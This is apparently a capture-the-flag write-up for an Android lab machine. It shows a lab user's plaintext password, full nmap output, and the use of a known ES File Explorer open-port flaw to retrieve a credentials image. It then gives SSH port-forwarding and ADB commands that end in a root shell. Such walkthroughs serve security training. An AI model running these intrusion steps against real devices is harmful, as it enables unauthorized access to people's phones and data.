

# Explore

## Explore

## Credentials

| User   | Password            | Note                            |
| ------ | ------------------- | ------------------------------- |
| kristi | Kr1sT!5h@Rp3xPl0r3! | via ES File Manager http server |
|        |                     |                                 |
|        |                     |                                 |

## Enumeration

### Nmap scan

```bash
# Nmap 7.91 scan initiated Sun Jun 27 08:21:45 2021 as: nmap -p2222,39541,42135,59777 -sV -sC -O -oA nmap/detailed 10.129.132.74
Nmap scan report for 10.129.132.74
Host is up (0.097s latency).

PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
39541/tcp open  unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:21:57 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 27 Jun 2021 12:21:57 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 27 Jun 2021 12:22:02 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:02 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=6/27%Time=60D86D61%P=x86_64-pc-linux-gnu%r(NU
SF:LL,24,"SSH-2\\.0-SSH\\x20Server\\x20-\\x20Banana\\x20Studio\\r\\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port39541-TCP:V=7.91%I=7%D=6/27%Time=60D86D60%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,AA,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDate:\\x20Sun,\\x20
SF:27\\x20Jun\\x202021\\x2012:21:57\\x20GMT\\r\\nContent-Length:\\x2022\\r\\nConten
SF:t-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\
SF:r\\nInvalid\\x20request\\x20line:\\x20")%r(GetRequest,5C,"HTTP/1\\.1\\x20412\\
SF:x20Precondition\\x20Failed\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:2
SF:1:57\\x20GMT\\r\\nContent-Length:\\x200\\r\\n\\r\\n")%r(HTTPOptions,B5,"HTTP/1\\
SF:.0\\x20501\\x20Not\\x20Implemented\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x
SF:2012:22:02\\x20GMT\\r\\nContent-Length:\\x2029\\r\\nContent-Type:\\x20text/pla
SF:in;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\r\\nMethod\\x20not\\x2
SF:0supported:\\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\\.0\\x20400\\x20Bad\\x20R
SF:equest\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:22:02\\x20GMT\\r\\nCont
SF:ent-Length:\\x2039\\r\\nContent-Type:\\x20text/plain;\\x20charset=US-ASCII\\r
SF:\\nConnection:\\x20Close\\r\\n\\r\\nNot\\x20a\\x20valid\\x20protocol\\x20version:
SF:\\x20\\x20RTSP/1\\.0")%r(Help,AE,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDa
SF:te:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:\\
SF:x2026\\r\\nContent-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnection
SF::\\x20Close\\r\\n\\r\\nInvalid\\x20request\\x20line:\\x20HELP")%r(SSLSessionReq
SF:,DD,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x
SF:202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:\\x2073\\r\\nContent-Type:\\x20
SF:text/plain;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\r\\nInvalid\\
SF:x20request\\x20line:\\x20\\x16\\x03\\0\\0S\\x01\\0\\0O\\x03\\0\\?G\\?\\?\\?,\\?\\?\\?`~\\?
SF:\\0\\?\\?{\\?\\?\\?\\?w\\?\\?\\?\\?<=\\?o\\?\\x10n\\0\\0\\(\\0\\x16\\0\\x13\\0")%r(TerminalSe
SF:rverCookie,CA,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDate:\\x20Sun,\\x202
SF:7\\x20Jun\\x202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:\\x2054\\r\\nContent
SF:-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\r
SF:\\nInvalid\\x20request\\x20line:\\x20\\x03\\0\\0\\*%\\?\\0\\0\\0\\0\\0Cookie:\\x20msts
SF:hash=nmap")%r(TLSSessionReq,DB,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nD
SF:ate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:
SF:\\x2071\\r\\nContent-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnectio
SF:n:\\x20Close\\r\\n\\r\\nInvalid\\x20request\\x20line:\\x20\\x16\\x03\\0\\0i\\x01\\0\\0
SF:e\\x03\\x03U\\x1c\\?\\?random1random2random3random4\\0\\0\\x0c\\0/\\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Oracle VM Server 3.4.2 (Linux 4.1) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), CyanogenMod 11 (Android 4.4.4) (93%), Android 4 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Device: phone

OS and Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sun Jun 27 08:23:36 2021 -- 1 IP address (1 host up) scanned in 111.16 seconds

```

This is probably an `android` device because of the `banana studio` ssh server

## ES File Manager exploitation

Vulnerable version of ES File Manager exposes open port to the external network and allow to execute commands to list files etc.

<figure><figcaption></figcaption></figure>

Source [https://github.com/fs0c131y/ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

One of the pictures was file named `creds.jpg`

<figure><figcaption></figcaption></figure>

The file was saved on the `sdcard` inside default folder with pictures `DCIM`

<figure><figcaption></figcaption></figure>

With obtained credentials login via `SSH` on port 2222 was possible.

## Privilege Escalation

The 5555 port was the adb `Androiid Debug Bridge`, there was some kind of firewall that don't allow connection from the external network but with `SSH` it is possible to port forward.

```bash
ssh -L 5555:127.0.0.1:5555 kristi@10.129.132.74 -N

```

Then the port 5555 is accessible from the local machine, so ADB can be attached.

```bash
adb connect 127.0.0.1:5555
adb -s 127.0.0.1:5555 shell
:/ $ su
:/ #
```
